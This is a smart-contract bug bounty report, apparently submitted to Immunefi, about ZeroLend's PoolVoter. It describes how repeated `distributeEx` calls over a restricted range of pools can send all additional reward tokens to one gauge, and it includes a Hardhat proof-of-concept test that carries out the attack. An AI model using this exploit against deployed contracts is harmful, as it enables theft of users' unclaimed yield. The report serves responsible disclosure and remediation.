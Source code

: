 
# Mechanism for distributing extra reward tokens is broken

Submitted on Sun Mar 03 2024 22:07:39 GMT-0400 (Atlantic Standard Time) by @MahdiKarimi for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28988

Report type: Smart Contract

Report severity: High

Target: https://github.com/zerolend/governance

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
PoolVoter mechanism for distributing additional reward tokens is vulnerable and allows an attacker transfer all additional reward tokens to a desirable gauge in favor of himself. 

## Vulnerability Details
PoolVoter has 2 diffrent mechanism for distributing rewards, first is simple distribution which is intended to distribute main reward token, also there is a mechanism to distribute additional rewards other than main reward token through `distributeEx` function, in this implementation additional reward token balance of PoolVoter has been distributed to different gauges proportion to each gauge weight and totalWeight, `distributeEx` enables users to choose which pools to distribute rewards by start and end parameters, this creates a situation which enables malicious user to distribute rewards to one gauge in favor of himself and call this function again  to distribute remaining balance again, and repeat this process to transfer almost all reward tokens to a specific gauge. It is recommended to ensure `distributeEx` iterates through all pools and transfers additional rewards at once. 

## Impact Details
It enables a malicious user to transfer all additional reward tokens to one specific gauge in favor of himself, this is considered a theft of unclaimed yield.

## References
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/voter/PoolVoter.sol#L214-L234
        
## Proof of concept
## Proof of Concept
```
  describe("transfer additional rewards test", () => {
    it("Malicious user can transfer all additional rewards to a speciefic gauge", async function () {
    
    // NOTE: this test works with https://github.com/zerolend/governance/commit/4c18c037bd3360ec7316733478b67632fb5218c9 commit 
    // tests didn't work at latest commit, however there is no change at pool voter other than changing some variable names between two commits 
    // so there is no differece 
    // some parts has been added to deployement as follow
    // a new lending pool has been deployed during deployment and its gauge has been registered at pool voter during deployment 
    // some zero tokens has been transferred to ant.address, so ant.address have enough zero token balance 
    // there is an issue at line 136 of PoolVoter by missing a ! sign, which prevents adding pools to _pool array and preventing distribute rewards 
    // since this issue relates to distributing rewards I needed to fix that so distribute function works by fixing if statement 
    // however I submitted that issue seperately and its different from this issue 

    // voting to both gauges equally 
    let vote1 = 1e8/2;
    let vote2 = 1e8/2; 
    await poolVoter.connect(ant).vote([reserve.target, reserve2.target],[vote1, vote2]);
   
    // we consider zero is additional reward token of the pool voter ( not main reward token ) 
    // transferring rewards to pool voter 
    await zero.connect(ant).transfer(poolVoter.target, 1e6);

    // retrieve pool voter contract balance 
    let balance0 = await zero.balanceOf(poolVoter);

    // call distributeEx with start:0 and end:1 so rewards would be distributed only to fisrt gauge  
    // since first gauge has half of total weight so it would receive half of balance 
    await poolVoter["distributeEx(address,uint256,uint256)"](zero.target, 0,1);

    // we call it again so half of remaining balance would be distributed to first gauge again 
    // this process can be repeated to transfer all additional rewards to one gauge 
    await poolVoter["distributeEx(address,uint256,uint256)"](zero.target, 0,1);

    // we can see that half 
    let balanceAfter = await zero.balanceOf(poolVoter);
    expect(balanceAfter).lessThan(balance0);

    });
  });
```